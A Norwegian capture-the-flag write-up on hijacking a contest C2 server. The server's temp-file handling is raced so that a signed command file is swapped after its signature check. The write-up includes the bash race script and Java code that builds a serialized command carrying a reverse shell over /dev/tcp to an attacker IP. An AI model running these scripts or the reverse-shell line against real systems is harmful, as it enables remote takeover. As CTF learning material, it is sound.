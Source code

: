 
## Writeup av hvordan jeg tok over C2-infrastrukturen ved å injisere et ondsinnet javaobjekt.

Jeg deltok i Etterretningstjenestens CTF høsten 2022, og denne writeupen tar for seg en av oppgavene.

<br>
<br>

Følgende kodesnutt viser litt av serverkoden for C2-rammeverket

```python
@app.route(PREFIX + "<client_id>/commands", methods=["POST"])
def add_command(client_id):
    upload_file = request.files.get("file", None)
    if not upload_file:
        logger.warning("missing file argument")
        return Response("", 400)

    with tempfile.NamedTemporaryFile(dir=WORKSPACE) as f:
        command_file = f.name
        upload_file.save(command_file)            # <------------------- her er sårbarheten
        print(f"saved file as {f.name}")
        try:
            obj = Command(f)      # <-------- filen blir deserialisert og verifiserer 
            obj.verify()          #           bla. at filen inneholder riktig signatur

            logger.info(f"registering new command for client {client_id}")
            add_command_to_db(client_id, obj.run_after, command_file)       # <--------- lagrer kommandoen i database 
            return Response(f"OK\n", 200)                                   #            som klientene sjekker i ny og ne

        except:
            logger.exception("invalid command or signature")
            return Response("", 400)
```

C2-rammerverket var satt opp slik at angriperen kunne sende en javaserialisert kommando (via POST-request) til klienter tilnyttet C2-serveren. Dersom kommandoen hadde riktig signatur ble den lagret i en database. Denne databasen fungerte som et postkontor hvor alle klienter koblet seg på for å se om det var lagret nye kommandoer til dem.

Jeg hadde tilgang til maskinen som kjørte denne C2-serveren, og målet mitt var å få tilgang til en eller flere klienter. Jeg prøvde å lage ondsinnede javaserialiserte kommandoer og sendte disse direkte til en av klientene, men dette gikk ikke fordi jeg ikke hadde riktig signatur.

Etter å ha studert server-koden fikk jeg øye på at kommandoen ble først lagret som en tmp-fil før den ble deserialisert og signatur sjekket. Kanskje kunne jeg utnytte dette ved å bytte ut en legitim kommando med min egen.

<br>
<br>

Siden tmp-filen ble slettet med en gang kommandoen var blitt lagret i databasen måtte jeg skrive et enkelt bash-script som byttet ut den legitime kommandoen med min egen:

```bash
cd .../   # Mappen hvor server lagrer både log-filer og kommando-fil i tmp-format
		      # tmp-filen blir slettet ganske fort
while true;
do
	var=$(ls | wc -l)   # Lagre antall filer i mappen i `var` (.log osv tas ikke med, derfor `ls` for å ikke telle med skjulte filer)
	if [ $var -eq 1 ]   # Hvis `var` == 1, da har server lagret tmp-filen
	then
		for f in `ls`
		do 
			echo "- $f created\n- Replacing with malicious object"
			sleep .001    # Sleep slik at koden får tid til å gjennomføre signatur-sjekk på den legitime kommando-filen
			base=$(basename -- "$f")    # Lagre tmp-navnet i variabel `base`
			mv -v $base ../   # Flytt den legitime kommando-filen bort
			cp ../evil_config $base   # Kopier ond kommando-fil til det samme tmp-navnet som den legitime filen hadde
			break   # Nå vil databasen ane fred og ingen fare og lagre den onde kommando-filen
		done
	fi
done
```
<br>

Kode for å lage det ondsinnede javaobjektet:

```java
import commands.Command;
import commands.Execute;
import utils.Config;
import java.io.*;
import java.time.Instant;

public class evilSerial {

    public static void writeObject(ObjectOutputStream var1) throws IOException {

        Config cfg = new Config();
        Command exec = new Execute();

        exec.recipient = "DEADBEEFDEADBEEF";
        exec.runAfter = Instant.now();
        exec.value = "exec bash -i &>/dev/tcp/10.1.194.171/1337 <&1";
        cfg.id = "DEADBEEFDEADBEEF";
        cfg.serverURL = "http://shady-aggregator.utl/f52e6101/";
        cfg.sleepDuration = 15;
        cfg.pendingCommands.add(exec);
        var1.writeObject(cfg);
}

    public static void main(String[] args) throws IOException {

        FileOutputStream fos = new FileOutputStream("evil_config");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        writeObject(os);
        os.close();
    }

}
```

<br>

Video av gjennomføring:

![](https://github.com/vegkva/writeups/blob/main/etjenesten_h%C3%B8st22/C2/ezgif-5-710a3f6a0c.gif)

Vindu til høyre:
- Først sendes det en legitim kommando til en av de infiserte klientene (DEADBEEFDEADBEEF) via C2-serveren (shady-aggregator)
- I server-koden gjøres det en signatursjekk av kommando-objektet
- Dersom signaturen feiler, vil ikke kommandoen sendes videre til klienten
- Når signaturen er sjekket og validert lagres kommandoen i en database som sender til klienter hver gang de sjekker inn.
- Men før kommandoen lagres i databasen blir den lagret som en tmp-fil i "/tmp/.../" (denne løsningen sammen med linux-rettigheter er hva som blir utnyttet)

Vindu til venstre:
- Her kjøres bash-scriptet vist ovenfor som hele tiden sjekker om kommandoen (eks. tmp15gj3H2) er lagret i "/tmp/.../"
- Når kommandoen er lagret, fjernes den og blir erstattet med mitt eget java-objekt som oppretter et "reverse shell" til en maskin jeg styrer

Mappen "/tmp/.../" har 777 rettigheter. Det har altså ingen betydning at tmp-filen eies av c2 med 700 rettigheter.
